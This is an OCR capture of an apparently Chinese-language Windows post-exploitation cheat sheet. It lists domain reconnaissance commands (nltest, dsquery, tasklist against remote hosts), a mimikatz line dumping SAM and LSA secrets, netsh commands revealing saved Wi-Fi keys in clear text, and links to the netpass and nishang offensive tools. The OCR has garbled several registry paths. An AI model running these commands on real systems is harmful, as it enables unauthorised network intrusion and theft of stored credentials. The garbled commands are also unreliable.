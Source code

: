 > > net use \\\\域控(如pc.xx.com) password /user:xxx.com\username 相当于这个帐号登录域内主机，可访问资源
> >
> > ipconfig
> >
> > systeminfo
> >
> > tasklist /svc
> >
> > tasklist /S ip /U domain\username /P /V 查看远程计算机 tasklist
> >
> > net localgroup administrators && whoami 查看当前是不是属于管理组
> >
> > netstat -ano
> >
> > nltest /dclist:xx  查看域控
> >
> > whoami /all 查看 Mandatory Label uac 级别和 sid 号
> >
> > net sessoin 查看远程连接 session (需要管理权限)
> >
> > net share   共享目录
> >
> > cmdkey /l  查看保存登陆凭证
> >
> > echo %logonserver%  查看登陆域
> >
> > spn –l administrator spn 记录
> >
> > set  环境变量
> >
> > dsquery server - 查找目录中的 AD DC/LDS 实例
> >
> > dsquery user - 查找目录中的用户
> >
> > dsquery computer 查询所有计算机名称 windows 2003
> >
> > dir /s *.exe 查找指定目录下及子目录下没隐藏文件
> >
> > arp -a
>
> 发现远程登录密码等密码 netpass.exe  下载地址：
>
> > https://www.nirsoft.net/utils/network_password_recovery.html获取 window vpn 密码：
>
> > mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  wifi 密码：
>
> > netsh wlan show profile 	查处 wifi 名
> >
> > netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理
>
> > reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
> >
> > Settings" /v ProxyServer
> >
> > reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理
>
> > reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
> >
> > Settings" /v AutoConfigURL  //引子 t0stmailpowershell-nishang
>
> > https://github.com/samratashok/nishang
>